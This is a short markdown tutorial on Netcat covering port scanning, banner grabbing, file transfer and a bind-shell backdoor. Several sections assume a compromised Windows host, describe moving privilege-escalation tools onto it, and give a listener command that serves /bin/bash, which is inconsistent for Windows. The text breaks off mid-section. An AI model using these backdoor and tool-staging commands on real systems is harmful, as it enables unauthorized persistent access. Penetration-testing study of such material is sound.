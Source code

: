 # Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET / HTTP/1.1\n\n`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo -en "GET / HTTP/1.1\n\n" | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e /bin/bash`
on the local host:
`# nc [remote host] 80`
`ls`

### Creating a backup on a remote machine
First you must setup a listener on the host that will receive the files. Af
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQ1NjA0MTYxNSwtMjAzMzgyOTIzLC0zMT
c0MDE0ODEsNTc4NTkzODQyLDExOTkyNTM5NzAsOTQ2MDIyMzIz
LDEzNzI5ODYyMDBdfQ==
-->